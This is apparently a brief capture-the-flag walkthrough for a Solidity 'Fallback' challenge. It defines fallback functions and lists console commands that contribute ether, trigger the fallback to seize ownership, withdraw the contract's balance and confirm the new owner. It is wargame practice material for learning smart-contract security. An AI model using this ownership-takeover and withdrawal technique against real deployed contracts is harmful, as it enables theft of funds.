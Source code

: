 ## The Fallback Function

A fallback function is a solidity function that is called when no other function in the smart contract matches the function name called.
https://www.geeksforgeeks.org/solidity-fall-back-function/

## Solution

1. Contribute to the contract
```bash 
    contract.contribute({ value: toWei(".000001", "ether"), from: player }) 
```
2. Send a transaction to trigger fallback function
```bash
    sendTransaction({ to: contract.address, value: toWei(".000001", "ether"), from: player })
```
3. Withdraw from contract 
```bash
    contract.withdraw()
```

**Verify ownership 
```bash
    await contract.owner()
```
